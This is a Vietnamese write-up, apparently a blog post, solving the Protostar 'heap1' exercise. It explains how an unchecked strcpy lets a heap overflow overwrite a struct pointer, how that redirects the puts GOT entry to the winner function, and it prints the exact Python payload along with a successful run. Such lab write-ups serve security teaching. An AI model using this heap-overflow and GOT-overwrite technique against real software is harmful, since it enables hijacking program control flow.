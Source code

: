 ```yaml
---
layout: post
title: heap1
---
```


Trong bài này, chúng ta sẽ exploit heap để điều hướng chương trình.
Sau đây là source code và asm code của chương trình heap1.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```
```asm
0x08048494 <winner+0>:  push   ebp
0x08048495 <winner+1>:  mov    ebp,esp
0x08048497 <winner+3>:  sub    esp,0x18
0x0804849a <winner+6>:  mov    DWORD PTR [esp],0x0
0x080484a1 <winner+13>: call   0x80483ac <time@plt>
0x080484a6 <winner+18>: mov    edx,0x8048630
0x080484ab <winner+23>: mov    DWORD PTR [esp+0x4],eax
0x080484af <winner+27>: mov    DWORD PTR [esp],edx
0x080484b2 <winner+30>: call   0x804839c <printf@plt>
0x080484b7 <winner+35>: leave
0x080484b8 <winner+36>: ret
0x080484b9 <main+0>:    push   ebp
0x080484ba <main+1>:    mov    ebp,esp
0x080484bc <main+3>:    and    esp,0xfffffff0
0x080484bf <main+6>:    sub    esp,0x20
0x080484c2 <main+9>:    mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:   mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:   mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:   mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:   call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:   mov    edx,eax
0x080484ea <main+49>:   mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:   mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:   mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:   call   0x80483bc <malloc@plt>
0x080484fd <main+68>:   mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:   mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:   mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:   mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:   call   0x80483bc <malloc@plt>
0x08048517 <main+94>:   mov    edx,eax
0x08048519 <main+96>:   mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:  mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:  mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:  add    eax,0x4
0x08048526 <main+109>:  mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:  mov    edx,eax
0x0804852a <main+113>:  mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:  mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:  mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:  mov    DWORD PTR [esp],eax
0x08048538 <main+127>:  call   0x804838c <strcpy@plt>
0x0804853d <main+132>:  mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:  add    eax,0x8
0x08048543 <main+138>:  mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:  mov    edx,eax
0x08048547 <main+142>:  mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:  mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:  mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:  mov    DWORD PTR [esp],eax
0x08048555 <main+156>:  call   0x804838c <strcpy@plt>
0x0804855a <main+161>:  mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
```

Mục tiêu là gọi được hàm `winner`. `strcpy` có thể lợi dụng được để exploit chương trình.
Sử dụng objdump hoặc gdb, ta tìm được địa chỉ của `winner` là `0x08048494`.
Trong chương trình có sử dụng 2 lần `strcpy` và theo sau là `printf` (`puts` trong asm).
Bản chất của lệnh `call puts@plt` là điều hướng chương trình về một bảng symbol do `puts` là external symbol (khác với `winner` hay `main` được định nghĩa trực tiếp trong source code).
Ở các bài về `printf`, ta điều hướng chương trình bằng cách ghi lại giá dẫn đến hàm `puts` thực bằng một giá trị dẫn đến hàm mục tiêu.
Dựa theo phỏng đoán, ta sẽ dùng `strcpy` lần đầu để ghi lại địa chỉ mà giá trị ở đó chứa địa chỉ của `puts` vào `i2->name`.
Sau đó `strcpy` thứ hai sẽ đọc địa chỉ này, và ghi địa chỉ của `winner` vào đó.

Trước hết, chúng ta sẽ kiếm tra vị trí tương đối của 2 biến `i1` và `i2` trên bộ nhớ.
Sau khi chạy thử chương trình với tham số bất kỳ, đây là bộ nhớ tại `esp`.
Từ asm code, ta biết được địa chỉ của <span style="color:aqua">i1</span> và <span style="color:springgreen">i2</span> nằm lần lượt tại `esp + 0x14` và `esp + 0x18`.

<pre class="memory">
0xbffff770:     0x00000008      0xb7fd7ff4      0x08048580      0xbffff798
0xbffff780:     0xb7ec6365      <span style="color:aqua">0x0804a008</span>      <span style="color:springgreen">0x0804a028</span>      0xb7fd7ff4
0xbffff790:     0x08048580      0x00000000      0xbffff818      0xb7eadc76
</pre>

Với cấu trúc của struct `internet`, 4 byte đầu sẽ là `priority` và 4 byte sau là địa chỉ của `name`.
Như vậy, offset của `name` với địa chỉ của biến sẽ là 0x04.
Ta sẽ suy ra được, trong trường hợp này, vị trí của `i1->name` và `i2->name` là `0x0804a00c` và `0x0804a02c`.
Bộ nhớ tại thời điêm trước sau khi `malloc` biến sẽ như sau.

<pre class="memory">
0x804a008:      0x00000001      <span style="color:aqua">0x0804a018</span>      0x00000000      0x00000011
<span style="color:aqua">0x804a018</span>:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      <span style="color:springgreen">0x0804a038</span>      0x00000000      0x00000011
<span style="color:springgreen">0x804a038</span>:      0x00000000      0x00000000      0x00000000      0x00020fc1
</pre>

Hai địa chỉ tương ứng này là `0x0804a018` và `0x0804a038`.
Với kiểu layout này, lần chạy `strcpy` đầu tiên ta có thể lưu tràn từ địa chỉ của `i1->name` tại `0x0804a018` qua vị trí lưu `name` trên biến `i2` là `0x0804a02c`.
Như vậy, tham số đầu tiên của chương trình sẽ cần 24 byte, trong đó 20 byte đầu để làm phần đệm và 4 byte cuối chưa địa chỉ của `puts` trên bảng lookup symbol `got.plt`.
Sau đây là vị trí trên bộ nhớ. Phân biệt theo màu với <span style="color:yellow">địa chỉ lệnh gọi đến symbol puts@plt</span>, <span style="color:orangered">địa chỉ chứa symbol puts@plt trên bảng got.plt</span>, và <span style="color:fuchsia">địa chỉ thực của puts@plt, cần thay thế bằng địa chi của winner</span>.
<pre class="memory">
0x8048561 <main+168>    call   <span style="color:yellow">0x80483cc <puts@plt></span>
...
<span style="color:yellow">0x80483cc <puts@plt></span>:   jmp    DWORD PTR ds:<span style="color:orangered">0x8049774</span>
...
<span style="color:orangered">0x8049774</span> <_GLOBAL_OFFSET_TABLE_+36>:   <span style="color:fuchsia">0x080483d2</span>
</pre>

4 byte cuối cùng sẽ là `0x8049774`.
Như vậy ta sẽ dựng tham số đầu tiên như sau.

```bash
python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08"'
```

Tham số thứ hai sẽ là địa chỉ của `winner`.

```bash
python -c 'print "\x94\x84\x04\x08"'
```

Như vậy, chúng ta sẽ chạy chương trình với input như sau.
Lưu ý cần khoảng trống giữa hai tham số.

```bash
python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08"'
```

<pre class="memory">
<span style="color:aqua">and we have a winner @ 1687025943</span>
</pre>

Mục tiêu đã hoàn thành!

## Ref
```bash
user@protostar:~$ heap1 $(python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08"')
and we have a winner @ 1687025943
```

